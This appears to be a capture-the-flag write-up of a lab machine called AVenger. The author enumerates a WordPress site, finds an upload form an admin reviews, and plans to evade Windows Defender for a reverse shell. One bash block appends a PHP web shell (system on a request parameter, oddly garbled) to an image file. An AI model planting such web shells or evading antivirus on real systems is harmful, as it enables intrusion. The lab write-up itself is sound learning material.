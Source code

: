 ![alt text](https://raw.githubusercontent.com/FabV05/files/main/AVenger/Index.png)

Consequently, in the applications.html, I got an information of the machine, some of those are important, but I can't do much with them 

![alt text](https://raw.githubusercontent.com/FabV05/files/main/AVenger/phpinfo.png)

Alright, time to kick it up a notch with the good GoBuster scan! Gonna give that port a closer look and see what it's really hiding. Let the hunting begin!

![alt text](https://raw.githubusercontent.com/FabV05/files/main/AVenger/gobuster.png)

First impression, 'Oh, a typical WordPress site,' right? Well, not quite! Digging deeper, I found myself at the 'gift' page, but here is the catch I need to put the domain in the /etc/hosts on my Guess OS

![alt text](https://raw.githubusercontent.com/FabV05/files/main/AVenger/domain.png)

Then, the page load correctly so I analyzed it and found a curious form that receive a file

![alt text](https://raw.githubusercontent.com/FabV05/files/main/AVenger/form.png)

![alt text](https://raw.githubusercontent.com/FabV05/files/main/AVenger/luna.png)

So, put a friendly pic and got a message back! Looks like someone on the admin side took a peek at the image

![alt text](https://raw.githubusercontent.com/FabV05/files/main/AVenger/form1.png)

Alright, now to confirm if it's what we're thinking, I'll create an image that accesses my website to check if we get any signal. It is time to put our theories in test!

```bash
sudo python3 -m http.server  80

echo '<?php system($_REQUEST['server/imagen-dibujos-animados-hongo-palabra-hongo_587001-200.png']); ?>' >> img.png
```

Got signal, but I got a problem. I need to evade the windows defender because the defender will block my revershell and probably block me 

![alt text](https://raw.githubusercontent.com/FabV05/files/main/AVenger/respuesta.png)

## Road 2 hugo

For a better comprehension, this is a little sniff in the windows defender configuration on the machine:

![alt text](https://raw.githubusercontent.com/FabV05/files/main/AVenger/defender1.png)

![alt text](https://raw.githubusercontent.com/FabV05/files/main/AVenger/defender2.png)
